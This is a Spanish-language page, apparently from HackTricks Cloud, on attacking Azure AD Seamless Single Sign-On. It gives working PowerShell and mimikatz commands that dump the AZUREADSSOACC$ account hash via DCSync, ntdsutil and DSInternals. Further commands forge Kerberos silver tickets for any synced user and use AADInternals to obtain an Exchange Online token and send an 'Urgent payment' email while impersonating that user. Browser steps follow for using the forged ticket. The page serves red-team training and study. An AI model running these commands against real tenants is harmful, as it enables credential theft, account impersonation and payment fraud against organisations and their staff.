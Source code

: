 # Az - Inicio de sesión único sin problemas

<details>

<summary><strong>Aprende a hackear AWS desde cero hasta convertirte en un experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Experto en Equipos Rojos de AWS de HackTricks)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén la [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Información Básica

[Desde la documentación:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) inicia automáticamente **sesión de usuarios cuando están en sus dispositivos corporativos** conectados a su red corporativa. Cuando está habilitado, **los usuarios no necesitan escribir sus contraseñas para iniciar sesión en Azure AD**, y generalmente, ni siquiera necesitan escribir sus nombres de usuario. Esta función proporciona a sus usuarios un acceso fácil a sus aplicaciones basadas en la nube sin necesidad de componentes locales adicionales.

<figure><img src="../../../../.gitbook/assets/image (7) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

Básicamente, Azure AD Seamless SSO **inicia sesión de usuarios** cuando están **en un PC unido a un dominio local**.

Es compatible con tanto [**PHS (Sincronización de Hash de Contraseña)**](phs-password-hash-sync.md) como [**PTA (Autenticación de Pase)**](pta-pass-through-authentication.md).

El SSO de escritorio utiliza **Kerberos** para la autenticación. Cuando está configurado, Azure AD Connect crea una **cuenta de computadora llamada AZUREADSSOACC`$`** en el AD local. La contraseña de la cuenta `AZUREADSSOACC$` se **envía en texto plano a Azure AD** durante la configuración.

Los **tickets Kerberos** están **encriptados** utilizando el **NTHash (MD4)** de la contraseña y Azure AD utiliza la contraseña enviada para descifrar los tickets.

**Azure AD** expone un **punto final** (https://autologon.microsoftazuread-sso.com) que acepta **tickets Kerberos**. El navegador de la máquina unida al dominio reenvía los tickets a este punto final para el SSO.

### Local -> nube

La **contraseña** del usuario **`AZUREADSSOACC$` nunca cambia**. Por lo tanto, un administrador de dominio podría comprometer el **hash de esta cuenta**, y luego usarlo para **crear tickets silver** para conectarse a Azure con **cualquier usuario sincronizado localmente**:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Con el hash ahora puedes **generar tickets de plata**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Para utilizar el "silver ticket", se deben seguir los siguientes pasos:

1. **Iniciar el Navegador:** Se debe abrir Mozilla Firefox.
2. **Configurar el Navegador:**
   - Navegar a **`about:config`**.
   - Establecer la preferencia para [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) a los [valores](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) especificados:
     - `https://aadg.windows.net.nsatc.net`
     - `https://autologon.microsoftazuread-sso.com`
3. **Acceder a la Aplicación Web:**
   - Visitar una aplicación web integrada con el dominio AAD de la organización. Un ejemplo común es [Office 365](https://portal.office.com/).
4. **Proceso de Autenticación:**
   - En la pantalla de inicio de sesión, ingresar el nombre de usuario y dejar en blanco el campo de contraseña.
   - Para continuar, presionar TAB o ENTER.

{% hint style="success" %}
Esto no evita la MFA si está habilitada.
{% endhint %}

#### ~~Creación de tickets Kerberos para usuarios solo en la nube~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Si los administradores de Active Directory tienen acceso a Azure AD Connect, pueden **establecer un SID para cualquier usuario en la nube**. De esta manera, los **tickets Kerberos** también pueden ser **creados para usuarios solo en la nube**. El único requisito es que el SID sea un [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) adecuado.

{% hint style="danger" %}
Cambiar el SID de usuarios administradores solo en la nube está **bloqueado por Microsoft**.\
Para más información, consultar [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Nube a través de la Delegación Constrained Basada en Recursos <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Cualquiera que pueda gestionar cuentas de computadora (`AZUREADSSOACC$`) en el contenedor o Unidad Organizativa en la que se encuentre esta cuenta, puede **configurar una delegación constrained basada en recursos sobre la cuenta y acceder a ella**.

<figure><img src="../../../../.gitbook/assets/image (125).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

## Referencias

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: Estoy en tu nube, leyendo los correos de todos - hackeando Azure AD a través de Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)
